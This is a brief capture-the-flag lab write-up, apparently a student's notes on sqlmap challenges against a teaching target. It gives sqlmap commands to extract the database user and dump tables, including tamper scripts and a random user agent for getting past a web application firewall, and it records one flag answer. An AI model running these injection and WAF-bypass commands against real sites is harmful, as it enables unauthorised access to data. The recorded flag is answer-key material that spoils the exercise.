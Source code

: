 



# ED 103.2.4: Sqlmap on a Protected Target (10 pts extra)
`Find the current username, covered by a green box in the image below. That's the flag.`

## Notes
- --current-user

sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" -p u --current-user

## Answer
- current user: 'bill2a@localhost'




# ED 103.2.5: Sqlmap: Retrieving Data (20 pts extra)
```Use Sqlmap on this target:
https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs

Recover the data from the tables. The flag is Steve Jobs' SSN.```

Key notes to get around WAF:
- --tamper=between,randomcase,space2comment (you need each .py script located in the dir you're working in!!!)
- --random-agent

## sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --tables